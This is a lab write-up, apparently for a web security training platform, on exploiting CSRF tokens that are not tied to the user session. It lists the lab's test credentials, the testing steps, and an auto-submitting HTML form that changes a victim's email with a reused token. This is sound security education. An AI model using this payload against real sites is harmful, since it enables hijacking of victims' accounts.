






# CSRF where token is not tied to user session
# Objective
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:\
- `wiener:peter`
- `carlos:montoya`

# Solution
## Analysis
Even though the website have `csrf` token website might not assosiate `csrf` token with adequate user `session`. 

||
|:--:| 
| *Test of change email functionality (user wiener) - CSRF token is preset* |
||
| *Test of change email functionality (user carlos) - CSRF token is preset* |

## Test attack
`csrf` token is not tied to user session.

||
|:--:| 
| *Dropped change email request - user wiener* |
||
| *Change email request with wiener's csrf token* |


## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - Craft POST request with validm, unused `csrf` token, that is not tied to user session
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="POST" action="URL/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="VALID_CSRF">
</form>

<script>
        document.forms[0].submit();
</script>
```

||
|:--:| 
| *Copy the csrf token of valid change email request* |
||
| *Deliver payload to victim* |
